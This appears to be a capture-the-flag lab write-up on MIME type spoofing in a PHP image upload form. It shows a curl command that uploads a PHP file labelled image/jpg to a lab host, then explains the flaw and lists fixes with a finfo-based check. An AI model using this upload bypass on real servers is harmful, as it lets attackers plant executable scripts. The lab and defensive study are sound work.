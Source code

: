 # 09 - MIME Type Spoofing

## Reproduce

In the image upload page: `http://192.168.1.19/?page=upload`

The upload accept only the '.jpg', but MIME types also can not be misleading, so we:
- Create a php file that we want to inject: 
`touch xxx.php`
- Upload the php file and grep the flag: 
`curl -X POST -H 'Content-Type: multipart/form-data' --form 'Upload=Upload' 
--form 'uploaded=@xxx.php;type=image/jpg' http://192.168.1.19/?page=upload | grep 'flag'`

Tadaa we got the flag


## Explaination of the vurnability

Checking for mime type in php is pretty easy but the mime can be spoofed. The attacker can upload a php script with for example jpg mime type, this vurnability can give the hacker the chance to upload a bad php script to the machine and then execute it from the upload folder


## Fix 

- First check the extension with a list of allowed ones ('jpg', ...)
- Check the uploaded file itself by running getimagesize on the file, it will return FALSE if it's not an image
- Check that the mime type of the file corresponds to the extension
- Avoid all redirects to uploaded images to avoid telling the folder where it is stored. 

`
function        getRealMimeType($filename) {
    $finfo = new finfo(FILEINFO_MIME, "/usr/share/misc/magic"); 
    if (!$finfo) {
        echo "Opening fileinfo database failed";
        return "";
    }
    return $finfo->file($filename);
}
`
